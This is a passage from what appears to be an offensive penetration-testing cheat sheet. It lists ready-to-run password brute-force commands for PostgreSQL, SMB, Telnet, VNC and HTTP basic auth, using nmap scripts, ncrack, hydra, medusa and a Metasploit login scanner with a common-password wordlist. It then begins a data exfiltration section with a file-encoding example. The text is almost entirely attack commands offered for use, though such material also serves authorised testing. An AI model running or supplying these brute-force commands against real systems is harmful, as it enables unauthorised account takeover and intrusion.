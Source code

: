 ```shell
## PostgreSQL
nmap -p5432 --script pgsql-brute "$T"
```

```shell
## SMB (windows)
nmap --script smb-brute "$T"
```

```shell
## Telnet
nmap -p23 --script telnet-brute --script-args telnet-brute.timeout=8s "$T"
```

```shell
## VNC
nmap -p5900 --script vnc-brute "$T"
ncrack -P "${PLIST}" --user root "vnc://$T"
hydra -P "${PLIST}" "vnc://$T"
medusa -P "${PLIST}" –u root –M vnc -h "$T"
```

```shell
## VNC (with metasploit)
msfconsole
use auxiliary/scanner/vnc/vnc_login
set rhosts 192.168.0.1
set pass_file /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt
run
```

```shell
## HTML basic auth
echo admin >user.txt                     # Try only 1 username
echo -e "blah\naaddd\nfoobar" >pass.txt  # Add some passwords to try. 'aaddd' is the valid one.
nmap -p80 --script http-brute --script-args \
   http-brute.hostname=pentesteracademylab.appspot.com,http-brute.path=/lab/webapp/basicauth,userdb=user.txt,passdb=pass.txt,http-brute.method=POST,brute.firstOnly \
   pentesteracademylab.appspot.com
```

---
<a id="exfil"></a>
## 4. Data Upload/Download/Exfil
<a id="file-encoding"></a>

### 4.i File Encoding

Encode binaries to text for transport via a terminal connection:

#### UU encode/decode

```sh
## uuencode 
uuencode /etc/issue.net issue.net-COPY
```
<details><summary>Output - CLICK HERE</summary></details>
